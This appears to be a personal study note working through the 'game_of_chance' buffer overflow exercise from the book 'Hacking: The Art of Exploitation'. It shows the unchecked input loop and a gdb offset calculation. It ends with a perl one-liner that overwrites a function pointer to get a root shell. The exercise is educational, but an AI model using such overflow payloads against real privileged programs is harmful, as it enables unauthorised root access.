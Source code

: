 ```yaml
---
book: "Hacking The Art Of Exploitation"
---
```


Let’s look at the vulnerability.

```c
struct user {
   int uid;
   int credits;
   int highscore;
   char name[100];
   int (*current_game) ();
};
```

Here the `name` is defined with a 100 byte long buffer.

```c
void input_name() {
   char *name_ptr, input_char='\n';
   while(input_char == '\n')    // Flush any leftover 
      scanf("%c", &input_char); // newline chars.
   
   name_ptr = (char *) &(player.name); // name_ptr = player name's address
   while(input_char != '\n') {  // Loop until newline.
      *name_ptr = input_char;   // Put the input char into name field.
      scanf("%c", &input_char); // Get the next char.
      name_ptr++;               // Increment the name pointer.
   }
   *name_ptr = 0;  // Terminate the string.
}
```

We can see that in the input name function, the length of the inputted string is not checked, allowing for a buffer overflow, yey 😄

```ad-note
It only stops at a new line. (`input_char != '\n'`)
```

Let’s look at the game selection part of the code:

```c
 if((choice < 1) || (choice > 7))
         printf("\n[!!] The number %d is an invalid selection.\n\n", choice);
      else if (choice < 4) {  // Othewise, choice was a game of some sort.
            if(choice != last_game) { // If the function ptr isn't set
               if(choice == 1)        // then point it at the selected game 
                  player.current_game = pick_a_number;   
               else if(choice == 2)                     
                  player.current_game = dealer_no_match;
               else
                  player.current_game = find_the_ace;
               last_game = choice;   // and set last_game.
            }
            play_the_game();   // Play the game.
         }
```

We can see that if the `last_game` isn’t the same as the choice, then it sets the `current_game` to the appropriate game. This means we have to play once first to have a value in the `last_game` var.

We can figure out with gdb how many bytes there are between the two variables:

```bash
gef➤  x/x &player.name
0x5655a08c <player+12>:	0x00000000
gef➤  x/x &player.current_game
0x5655a0f0 <player+112>:	0x00000000
gef➤  print 0x804b6d0 - 0x804b66c
$1 = 0x64
```

Our final exploit is:

```bash
perl -e 'print "1\n7\nn\n5\n" . "A"x100 . "\x62\xdf\xff\xff\n" . "1\n"' > exploit_buffer  

cat exploit_buffer - | ./game_of_chance 
```

Let’s break this down, first, we print out `"1\n7\nn\n5\n"`, since that allows us to play a game, allowing us to have a value in `current_game`. Then, we use `"A"x100` to fill the buffer.

After that we have our payload address `"\x62\xdf\xff\xff\n"`. For more info on how to get this checkout [[Using ENV for binexp]].

Then we pip all this into an exploit_buffer file.

When piping, we use the `-` character, so we can get back the control to ourselves, meaning we can use the shell we just opened, without this the program just closes.

```bash
whoami
	root
```

Done 😊